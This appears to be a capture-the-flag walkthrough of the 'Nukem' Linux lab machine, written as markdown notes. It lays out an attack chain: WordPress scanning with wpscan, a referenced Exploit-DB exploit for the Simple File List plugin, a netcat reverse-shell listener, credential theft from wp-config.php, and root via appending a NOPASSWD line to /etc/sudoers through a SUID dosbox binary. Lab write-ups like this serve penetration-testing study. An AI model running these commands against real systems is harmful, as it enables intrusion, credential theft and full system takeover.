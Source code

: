 # 💣 Nukem (Linux)

## 🔍 Initial Foothold

- Discovered a WordPress site running on port 80 at `http://192.168.215.105`.
- Ran `wpscan` with API token to identify vulnerabilities:

```bash
wpscan --update
wpscan --url http://192.168.215.105 --api-token <your_token>
```

- Found vulnerable plugin: **Simple File List**.
- Modified and used the following exploit:  
  🔗 [`Simple File List Exploit - ID 48979`](https://www.exploit-db.com/exploits/48979)

```bash
python3 48979.py http://192.168.215.105/
```

- Started a reverse shell listener:

```bash
sudo nc -nlvp 80
```

- Reverse shell received! 🐚

---

## 📦 Post Exploitation

- Navigated through directories and found `wp-config.php`:
```bash
cat wp-config.php
```

- Extracted **Commander** user credentials from config.

---

## 🚀 Privilege Escalation

- Targeted `dosbox` binary using the third method from this article:  
  🔗 [PG Nukem - Medium](https://medium.com/@ardian.danny/oscp-practice-series-64-proving-grounds-30964bed6cf3)

- Attempted 3 escalation methods:
  1. Adding SSH public key to `authorized_keys` ❌
  2. Modifying `/etc/passwd` ❌
  3. ✅ Modified `/etc/sudoers` and added `commander` with full sudo rights:

```bash
echo 'commander ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers
```

- Switched to root:

```bash
sudo su
```

- 🏁 Got root shell!

---

## 🧠 Key Takeaways

- 🔎 `wpscan` + API = powerful WordPress enumeration
- 🧠 Always check for plugin exploits using `searchsploit`
- 📜 Exploit configuration files like `wp-config.php` for creds
- 💥 Privilege escalation using SUID binaries like `dosbox` is potent
- 🛡️ Abuse `/etc/sudoers` with caution — instant root if writable

